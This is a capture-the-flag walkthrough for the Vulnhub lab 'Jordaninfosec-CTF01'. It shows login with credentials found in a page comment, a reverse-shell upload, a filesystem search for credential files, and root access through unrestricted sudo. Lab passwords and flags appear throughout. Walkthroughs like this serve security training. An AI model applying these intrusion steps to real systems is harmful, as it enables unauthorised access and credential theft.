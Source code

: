 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


Let’s check the IP address of the victim machine →

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled.png)

```bash
IP : 10.0.2.46 
```

## Port Scan Results ⤵️

```bash

```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%202.png)

hint.txt —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%204.png)

```jsx
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
```

Lets login into this site —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%205.png)

and now upload the reverse shell file here —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%206.png)

As ⬆️ I got success in uploading the files so lets load that shell file ➡️

```jsx
URL --> http://10.0.2.46/uploaded_files/shell.php
```

In response to that I got this —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%207.png)

Actually, this statement of hidden file was a little misleading, because the file we are looking for was not hidden… I tried to search for user, pass, etc… files, but unfortunately, none of them worked. Lastly, I tried `find / -name cred*`, which revealed the /etc/mysql/conf.d/credentials.txt file.

```jsx
www-data@Jordaninfosec-CTF01:/$ find / -name cred* 2>/dev/null
/sys/kernel/slab/cred_jar
/usr/share/man/man7/credentials.7.gz
/usr/share/doc/git/contrib/credential
/usr/src/linux-headers-4.4.0-31/include/linux/cred.h
/usr/src/linux-headers-4.4.0-210/include/linux/cred.h
/usr/src/linux-headers-4.4.0-72/include/linux/cred.h
/etc/mysql/conf.d/credentials.txt
www-data@Jordaninfosec-CTF01:/$
www-data@Jordaninfosec-CTF01:/$ cat /etc/mysql/conf.d/credentials.txt
cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/$
```

Now thank god I got the credentials I was pissed so bad —>

```jsx
www-data@Jordaninfosec-CTF01:/$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/$
```

Now lets see how technawi can lead me to root —>

```jsx
technawi@Jordaninfosec-CTF01:/$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/$
```

Now its root time ➡️

```jsx
technawi@Jordaninfosec-CTF01:/$ sudo /bin/bash -i
sudo /bin/bash -i
root@Jordaninfosec-CTF01:/# whoami
whoami
root
root@Jordaninfosec-CTF01:/#
```

Let’s find out the last flag ➡️

```jsx
root@Jordaninfosec-CTF01:/var/www/html# cat flag.txt
cat flag.txt
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
root@Jordaninfosec-CTF01:/var/www/html#
```